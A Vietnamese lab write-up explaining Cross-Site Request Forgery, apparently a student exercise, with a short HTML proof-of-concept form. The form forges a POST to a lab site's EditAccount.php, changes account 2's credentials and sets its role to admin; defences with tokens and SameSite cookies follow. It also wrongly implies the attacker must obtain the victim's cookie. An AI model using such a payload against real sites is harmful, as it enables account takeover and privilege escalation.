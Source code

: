 Người thực hiện: Lê Trần Văn Chương
Ngày: 18/04/2022
Mục luc:
- [CSRF](#csrf)
- [Lab](#lab)
- [Phòng chống](#phòng-chống)

## CSRF
- Cross-Site Request Forgery (CSRF) là một cuộc tấn công buộc người dùng cuối thực hiện các hành động không mong muốn trên ứng dụng web mà họ hiện đang được xác thực. Nếu nạn nhân là người dùng bình thường, một cuộc tấn công CSRF thành công có thể buộc người dùng thực hiện các yêu cầu thay đổi trạng thái như chuyển tiền, thay đổi địa chỉ email của họ,... . Nếu nạn nhân là tài khoản quản trị, CSRF có thể xâm phạm toàn bộ ứng dụng web.
- CSRF là một cuộc tấn công đánh lừa nạn nhân gửi một yêu cầu độc hại. Nó kế thừa danh tính và đặc quyền của nạn nhân để thay mặt nạn nhân thực hiện một chức năng không mong muốn. Hầu hết các trang web, các yêu cầu trình duyệt tự động bao gồm bất kỳ thông tin đăng nhập nào được liên kết với trang web, chẳng hạn như cookie người dùng, địa chỉ IP, thông tin đăng nhập,... . Do đó, nếu người dùng hiện đã được xác thực vào trang web, trang web sẽ không có cách nào để phân biệt giữa yêu cầu giả mạo do nạn nhân gửi và yêu cầu hợp pháp do nạn nhân gửi.
- CSRF tấn công chức năng nhắm mục tiêu gây ra thay đổi trạng thái trên máy chủ, chẳng hạn như thay đổi địa chỉ email hoặc mật khẩu của nạn nhân hoặc mua thứ gì đó.

## Lab
- Link: 
    - Victim: https://00bluec10.000webhostapp.com/index.php
    - Attack: https://php-bacsic.000webhostapp.com/
- Để có thể attack vào trước tiên user phải login vào trước để có thể `Cookie` của user đó để attack.
- Khi user đã login và lấy được `Cookie` thì ta gửi cho user host đã chuẩn bị sẵn để user nhấn vào bắt đầu đổi thông tin,... 
- Dưới đây là 1 đoạn `Code` html đơn giản để có thể đổi user có `accountId=2` những thông tin đã nhập trong form sẵn và chuyển user này thành `Admin`:
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://00bluec10.000webhostapp.com/EditAccount.php?accountId=2" method="POST">
      <input type="hidden" name="username" value="CSRF" />
      <input type="hidden" name="email" value="csrf@gmail.com" />
      <input type="hidden" name="password" value="asd" />
      <input type="hidden" name="role" value="1" />
      <input type="hidden" name="editUser" value="Edit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
- Trước khi attack
![Hinh 1.](~/../img/1.png)

- Sau khi attack
![Hinh 2.](~/../img/2.png)

## Phòng chống
- Cách dễ dàng nhất là ta sẽ thêm vào form 1 cái `token` nếu mà gửi lên server mà không có cái token này thì nó sẽ hiện lỗi.
```html
<form action="/ex.com" method="post">
<input type="hidden" name="CSRFToken" value="OWY4NmQwODE4ODRjN2Q2NTlhMmZlYWEwYzU1YWQwMTVhM2JmNGYxYjJiMGI4MjJjZDE1ZDZMGYwMGEwOA==">
[...]
</form>
```
- Hoặc có thể dùng thuộc tính `Samsite` của `Cookie` để phòng chống và đặt `SameSite=Strict` sẽ ngăn trình duyệt gửi cookie đi.


